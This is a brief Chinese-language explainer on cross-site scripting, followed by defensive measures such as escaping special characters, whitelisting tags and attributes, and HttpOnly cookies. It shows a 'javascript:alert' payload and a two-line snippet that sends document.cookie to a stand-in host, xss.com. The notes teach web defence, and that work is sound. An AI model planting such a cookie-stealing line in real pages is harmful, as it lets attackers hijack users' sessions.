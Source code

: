 ## XSS(Cross Site Scripting)
往页面中插入js代码，比如发表文章的时候往img标签的src内写入javascript:alert('xss'),这样文章发表后就会出现弹窗
类似的有script、iframe、style标签等
var img = document.createElement('img');  
img.src='http://www.xss.com?cookie='+document.cookie;  

## 防护措施：
1. 作为标签：在不需要html输入的地方对html标签及一些特殊字符（" < > &）做过滤，将其转化为不被浏览器解释执行的字符：（&nbsp; &lt;）
2. 作为某标签的属性：属性本身存在的 单引号和双引号都需要进行转码，对用户输入的html 标签及标签属性做白名单过滤，也可以对一些存在漏洞的标签和属性进行专门过滤。
3. 设置cookie的http-only字段为true，就不能通过js获取cookie